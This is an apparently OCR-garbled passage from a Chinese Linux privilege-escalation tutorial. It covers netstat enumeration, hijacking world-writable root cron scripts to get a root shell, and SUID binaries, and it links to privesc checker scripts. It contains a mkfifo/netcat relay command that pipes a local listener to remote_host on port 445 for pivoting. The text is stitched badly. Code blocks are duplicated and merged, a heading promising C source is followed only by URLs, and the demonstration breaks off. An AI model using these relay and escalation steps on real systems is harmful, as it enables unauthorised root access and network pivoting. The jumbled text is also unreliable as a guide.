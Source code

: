 ```
netstat -antup#查看各种网络服务
netstat -antup#查看各种网络服务
```

`系统内可能会有一些定时执行的任务，一般这些任务由crontab来管理，具有所属用户的权限。非root权限的用户是不可以列出root用户的计划任务的。但是/etc/内系统的计划任务可以被列出`

```
mkfifo backpipenc -l 8082 0<backpipe | nc remote_host 445 1>backpipe
mkfifo backpipe
nc -l 8082 0<backpipe | nc remote_host 445 1>backpipe
```

`![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7erNwBMUDm8luu5tpSEZNa4jOia042CA6nlgiaEboegBW3UnbHE6zG2mo0YH2CxCYfrK6otl1hHby7w/640?wx_fmt=png)`

`默认这些程序以root权限执行，如果有幸遇到一个把其中脚本配置成任意用户可写的管理员，我们就可以修改脚本等回连rootshell了。  
`

`**SUID**`
----------

`SUID是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行。比如passwd命令，就是以root权限运行来修改shadow的。`

`这里我们做个实验(环境为ubuntu 16.04)：`

`c源代码`

```
unix-privesc-check：http://pentestmonkey.net/tools/audit/unix-privesc-check
unix-privesc-check：http://pentestmonkey.net/tools/audit/unix-privesc-check
```

```
linuxprivchecker：https://www.securitysift.com/download/linuxprivchecker.py
linuxprivchecker：
https://www.securitysift.com/download/linuxprivchecker.py
```

```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
```

```
http://www.xinotes.net/notes/note/1529/https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
http://www.xinotes.net/notes/note/1529/
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
```

```
-rwsr-xr-x 1 root root 8632 Mar 15 20:53 suid-exp
-rwsr-xr-x 1 root root 8632 Mar 15 20:53 suid-exp
```

```
注意s属性，表示这个程序有SUID的属性。
```

`接下来我们切换用户并执行`
